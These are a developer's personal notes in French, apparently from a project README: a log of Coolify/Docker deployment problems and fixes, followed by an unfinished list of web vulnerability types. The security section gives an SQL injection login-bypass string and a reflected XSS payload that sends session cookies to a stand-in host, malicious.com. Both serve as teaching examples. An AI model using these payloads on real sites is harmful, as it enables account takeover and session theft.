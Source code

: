 # deploiement :

### historique des actions et pbm rencontrés

- lancement du deploiement sur coolify à partir du repo github publique
- **erreur :**
	- npm n'arrive pas à acceder aux package.json
	- connexion au server via ssh pour identifier le probleme
	- le dossier du projet n'est que partiellement importé de github
	- activation de l'option "Preserve Repository During Deployment" dans coolify
- deploiement à nouveau
- **erreur :**
	- conflits dans les fichiers importés
	- resolus manuellement avec ssh pour l'instant
- le deploiement va plus loin
- **erreur :**
	- imports ne fonctionnent pas à cause d'une erreur dans le nom d'un fichier icone
- resoud le pbm, push sur github, redeploi
- ca marche ! -> le site est en ligne, sur l'url generee par coolify
- **erreur :**
	- la ddb n'envoit pas ses infos
	- ddb ne trouve le dossier `pg_notify`
	- pbm vient du volume de la ddb "psql" qui n'est pas vide donc pas reinstallé
	- il faudra l'enlever de github, pour l'instant je le vide
- ca marche !
- **erreur :**
	- le site s'affiche, mais pas les infos de la ddb
	- les fetch sont fait sur http://localhost:3000 -> pas bon
	- pbm avec le nom de domaine : les variables .env ne sont pas remplies
	- pour que les variables soient prises en compte il faut rebuild react
- **erreur :**
	- npm run build ne marche pas
	- pbm vient de la ligne "main: index.js" : parcel ne sait pas quoi en faire, je l'enleve
	- build fonctionne, pbms de .env et url resolu momentanement
	- les fetch se font sur la bonne adresse au lieu de localhost
- **erreur :**
	- aucune info ne revient du back
	- les donnees n'ont pas ete seedées, je les seed manuellement
- **erreur :**
	- les fetch se font à nouveau sur localhost, peut-etre qu'en seedant les donnees j'ai perdu les variables d'env en relancant le container ? bizarre
	- je change les .env pour mettre toutes les variables d'env dans le compose file, et les donner à coolify
	- c'est bon les variables sont bien transmises aux containers
- **erreur :**
	- les appels fetch marchent une fois, puis passent à nouveau sur localhost, il faut inverstiguer
	- en fait les fichier dans dist automatiquement crées par react ne sont pas bien mis à jour à cause de leur presence dans github
	- je les enleve de git
- **erreur :**
	- on à perdu les donnees de la base de donnee, je vais automatiser leur seeding



### liste des problemes et de leur resolution

- resoudre les pbm que recontre coolify pour le deploiement :
	1. **volumes :** il creer des dossier ./BACK/db/migration.sql/ et ./BACK/db/seeding.sql/ au lieu de fichiers, parce qu'il les voit dans le docker-compose.yml en tant que "bind mount files" et il croit que ce sont des volumes, puis il ne parvient pas a les remplacer par les fichiers quand il synchronise avec github
	3. **psql/ :** ensuite il n'arrive pas toujours a creer la base de donnee, parce qu'il a copié le dossier psql depuis github donc il saute l'etape de recreer la base de donnee, et il lui manque des choses
	4. **ports :** à ce stade, le site s'affiche, mais pas toujours sur le meme port, c'est encore mysterieux
	5. **.env :** ensuite il n'a pas les variables d'environnement pour les fetchs
	6. **dist/ :** parfois les fetchs sont fait sur l'url trouvee dans la variable d'env, et d'autres fois sur localhost, à cause du dossier dist/
	7. **bdd sync & seed :** à un moment il y a le pbm de la base de donnee qui doit etre cree en 2 etapes en de-commentant des lignes, je ne sais pas encore comment resoudre ca

#### pbm 1 et 2 **volumes** et **sync github** :

- dans le docker-compose.yml, au lieu d'avoir 2 fichier "bind mount", on va mettre un volume qui contient les 2 fichiers :
	- avant :
	```
  volumes:
    - ./BACK/db/migration.sql:/docker-entrypoint-initdb.d/create_tables.sql 
    - ./BACK/db/seeding.sql:/docker-entrypoint-initdb.d/seeding.sql
	```
	- apres :
	```
  volumes:
    - ./BACK/db/:/docker-entrypoint-initdb.d/
	```
- aussi on change le nom de `migration.sql` pour `create_tables.sql` puisqu'il doit s'appeller comme ca dans le container
- ok

#### pbm 3 **psql/** :

- on a tout simplement pas besoin de synchroniser le dossier psql dans github
	- donc on l'enleve de github : `git rm -r psql/`
	- et on le met dans .gitignore : `psql/`
- la base de donnee se recreer correctement si on deploi
- ok

#### pbm 4 **ports** : ?

#### pbm 5 **.env** :

- pour l'instant chaque dossier FRONT et BACK possede son fichier .env avec ses variables d'environnements
- mais coolify ne nous laisse pas creer des variables d'environnement localisées dans tel ou tel fichier (à ma connaissance)
- donc on va changer la structure du projet pour que toutes le variables d'environnement soient declarées dans le .env à la racine du projet :
	- on declare toutes la variables dans le .env à la racine du projet
	- dans le fichier docker-compose.yml on injecte les bonnes variables dans les bons containers :
		- avant :
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: "skillswap"

			front:
				# pas d'environnement
		```
		- apres :
		```
		# dans .env à la racine du projet :

		POSTGRES_DB=skillswap
		REACT_APP_URL=camille.cloud
		```
		```
		# dans docker-compose :

		services:
			bdd:
				environment:
					POSTGRES_DB: ${POSTGRES_DB}

			front:
				environment:
					REACT_APP_URL: ${REACT_APP_URL}
		```
- maintenant les variables d'environnements sont dans tout l'environnement de chaque container, au lieu d'etre dans un fichier
- il ne reste plus qu'à les rentrer dans coolify avant de deployer
- ok

#### pbm 6 **dist/** :

- en fait react cree des fichiers dans le dossier dist/ qui ont ete envoyé sur github
- ils ne sont du coup pas bien recrees dans le server
- il suffit de les enlever de git et github avec une regle dans .gitignore

#### pbm 7 **bdd sync & seed** :

- 


---

# securité :

## types de failles de securité :

1. **injection SQL**
   injecter une requete sql "malveillante", qui fait fonctionner la base de donnee d'une maniere imprevue
	 ex de requete avec 2 champs de formulaire pour se connecter 'username' et 'password' :
	    "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
			si on remplis uniquement le 'username' avec [' OR '1'='1], ca donne cette requete :
			SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
			1=1 est toujours vraie donc on peut se connecter avec n'importe username sans le mot de passe
2. **xss**
   injecter du code "malveillant" sur une page vue par un autre utilisateur, par exemple pour recuperer ses cookies de session
   ex d'attaque xss sur un site web qui permet de faire une recherche :
	    1. le site possede une page avec un champ de recherche, on peut chercher "babar" par exemple :
			   `recherche: [babar]`
			2. lorsqu'on valide la recherche, elle est envoyé avec la methode GET au back :
			   `https://exemple.com/search?query=babar`
			3. le site affiche ensuite la recherche en plus des resultats :
				 `les resultats pour votre recherche "babar" sont etc...`
			4. donc si on envoit cette url à quelqu'un, il va voir les resultats s'afficher :
			   `https://exemple.com/search?query=babar`
				 `les resultats pour votre recherche "babar" sont etc...`
			5. au lieu d'envoyer "babar" dans le champs de recherche, on peut y mettre un script :
			   [<script>document.location='http://malicious.com/steal?cookie='+document.cookie</script>]
				 les resultats pour votre recherche <script>...</script>
				 -> le script est executé
				 en l'occurence, il vole les cookies de session de la personne, on peut donc ensuite se connecter a son compte
3. **csrf**
   
4. **brute force**
   
5. **man in the middle**
   
6. **ddos**
   
7. **idor**
   
